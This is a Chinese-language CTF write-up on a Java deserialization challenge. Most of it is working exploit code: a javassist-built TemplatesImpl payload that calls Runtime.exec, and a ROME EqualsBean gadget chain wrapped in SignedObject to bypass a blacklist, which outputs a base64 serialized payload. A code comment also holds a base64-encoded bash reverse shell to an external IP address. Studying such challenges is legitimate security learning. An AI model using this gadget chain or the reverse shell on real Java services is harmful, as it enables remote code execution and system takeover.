


- 本身自己是没有打这个比赛的，当时杰哥和我说这个题目挺简单的


## controller 



可以说是很明显了，入口类，但是这里的输入我不太能看得明白；可能是 Venti 是入口吧；然后 base64


`toString()` 这里，有一个非常明显的 `defiClass()`，后面是动态加载字节码的过程


写个 EXP 调用，测试一下


```java
public class EXP {
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("E:\\JavaClass\\TemplatesBytes.class"));
        CoffeeBean coffeeBean = new CoffeeBean();
        setFieldValue(coffeeBean,"ClassByte",code);
        coffeeBean.toString();
    }

    public static void setFieldValue(Object o, String fieldName, Object value) throws Exception {
        Class c = o.getClass();
        Field field = c.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(o,value);
    }

}
```





尾部是找到了，简单的动态加载字节码，难题其实在中间链子上，看 pom.xml，有个 ROME 的链子，正好这几天自己也在学，复现一手。


这两天已经把 ROME 链学完了，大致的 EXP 来写一手

一开始用的 EXP 是这一条 


```java
package model;

import com.rometools.rome.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class EXP {
    public static void main(String[] args) throws Exception {
        byte[] evil = getTemplatesImpl("Calc");
        CoffeeBean coffeeBean = new CoffeeBean();
        setFieldValue(coffeeBean,"ClassByte",evil);
        Class c = coffeeBean.getClass();
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(coffeeBean);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }

    public static void setFieldValue(Object o, String fieldName, Object value) throws Exception {
        Class c = o.getClass();
        Field field = c.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(o,value);
    }
    public static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("Evil");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody(" try {\n" +
                    " Runtime.getRuntime().exec(\"" + cmd +
                    "\");\n" +
                    " } catch (Exception ignored) {\n" +
                    " }");
            // "new String[]{\"/bin/bash\", \"-c\", \"{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMC4xMS4yMzEvOTk5MCAwPiYx}|{base64,-d}|{bash,-i}\"}"
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static Object getValue(Object obj, String name) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        return field.get(obj);
    }

}

```


然后各种传参出了点问题，后续我觉得可能是 Java 编码和 Python 编码有些区别的地方，但是 F1or 师傅说是由于有黑名单。


```java
package model;

import com.rometools.rome.feed.impl.EqualsBean;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class JieEXP {

    public static void setFieldValue(Object target, String name, Object value) throws Exception {
        Class c = target.getClass();
        Field field = c.getDeclaredField(name);
        field.setAccessible(true);
        field.set(target,value);
    }

    public static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("Evil");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody(" try {\n" +
                    " Runtime.getRuntime().exec(\"" + cmd +
                    "\");\n" +
                    " } catch (Exception ignored) {\n" +
                    " }");
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        byte[] code = getTemplatesImpl("Calc");
        byte[][] bytecodes = {code};
        setFieldValue(obj, "_bytecodes", bytecodes);
        setFieldValue(obj, "_name", "Drunkbaby");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Hashtable table1 = getPayload(Templates.class, obj);
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance("DSA"));
        Hashtable table2 = getPayload(SignedObject.class, signedObject);


        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(table2);
        oos.close();
        String payload = new String(Base64.getEncoder().encode(baos.toByteArray()));
        System.out.println(payload);


    }


    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, "r");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", payloadObj);
        map2.put("zZ", bean);
        map2.put("yy", payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "beanClass", clazz);
        setFieldValue(bean, "obj", payloadObj);
        return table;
    }
}
```


复现成功


